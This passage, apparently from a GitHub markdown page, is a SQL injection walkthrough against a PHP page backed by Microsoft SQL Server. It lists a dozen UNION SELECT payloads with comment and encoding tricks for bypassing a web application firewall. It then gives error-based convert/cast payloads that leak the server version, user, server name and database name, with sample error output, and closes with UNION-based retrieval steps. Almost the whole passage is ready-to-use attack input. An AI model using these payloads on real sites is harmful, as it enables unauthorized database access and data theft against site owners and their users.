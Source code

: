 ```http://domain.com/index.php?id=1```  
    http://domain.com/index.php?id=1 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 uni%20union%20/*!select*/%20 1,2,3,4-- -  
    http://domain.com/index.php?id=1 union%23aa%0Aselect 1,2,3,4-- -  
    http://domain.com/index.php?id=1/**/union/*!50000select*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /^****union.*$/ /^****select.*$/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*union*/union/*select*/select+ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!50000UnION*//*!50000SeLeCt*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %252f%252a*/union%252f%252a /select%252f%252a*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 AnD null UNiON SeLeCt 1,2,3,4;%00-- -  
    http://domain.com/index.php?id=1 AnD null UNiON SeLeCt 1,2,3,4+--+-  
    http://domain.com/index.php?id=1 And False Union Select 1,2,3,4+--+-  
    

We bypassed the WAF and found that the 3nd column has the information.

## Dumping database (Boolean string)

```http://domain.com/index.php?id=1'and 1=convert(int,@@version)--```  
```http://domain.com/index.php?id=1'and 1=cast(@@version as int)-- -```  
Both payloads will return the same error, with the version output.  
>Error: Warning: mssql_query() message: COnversion failed when converting the nvarchar value "**Microsoft SQL Server 2012 (SP1) - 110.0.3156.0 (X64) Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows NT 6.2 X64 (Build 9200: ) (Hypervisor)**" to data type int. (severity 16 in D:\something\web\STD\...\id.php on line...

```http://domain.com/index.php?id=1'and 1=convert(int,user_name())--```  
```http://domain.com/index.php?id=1'and 1=cast(user_name as int)-- -```  
Both payloads will return the same error, with the version output.  
>Error: Warning: mssql_query() message: Conversion failed when converting the nvarchar value '**admin_user**' to data type int. (severity 16) in D:\something\web\STD\...\id.php on line...

```http://domain.com/index.php?id=1'and 1=convert(int,@@SERVERNAME())--```  
```http://domain.com/index.php?id=1'and 1=cast(@@SERVERNAME as int)-- -```  
Both payloads will return the same error, with the server name output.  
>Error: Warning: mssql_query() message: Conversion failed when converting the nvarchar value '**SERVER_NAME_HERE**' to data type int. (severity 16) in D:\something\web\STD\...\id.php on line...

```http://domain.com/index.php?id=1'and 1=convert(int,db_name())--```  
```http://domain.com/index.php?id=1'and 1=cast(db_name() as int)-- -```  
Both payloads will return the same error, with the database name output.  
>Error: Warning: mssql_query() message: Conversion failed when converting the nvarchar value '**store_database**' to data type int. (severity 16) in D:\something\web\STD\...\id.php on line...

## Dumping database (UNION based query)

Use the union query which worked, in this case I bypassed WAF and found that the 3rd column is vulnerable with payload:  
```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4-- -```  

Becasue of the 3rd column, replace number **3** with the following payloads to retrieve informations:

```
@@version  
db_name()  
user_name()
```

Example:  
Retrieve database version:  
```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,@@version,4-- -```  
Look at the error message, the version will be displayed there.  

Retrieve database name:  
```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,db_name(),4-- -```  
```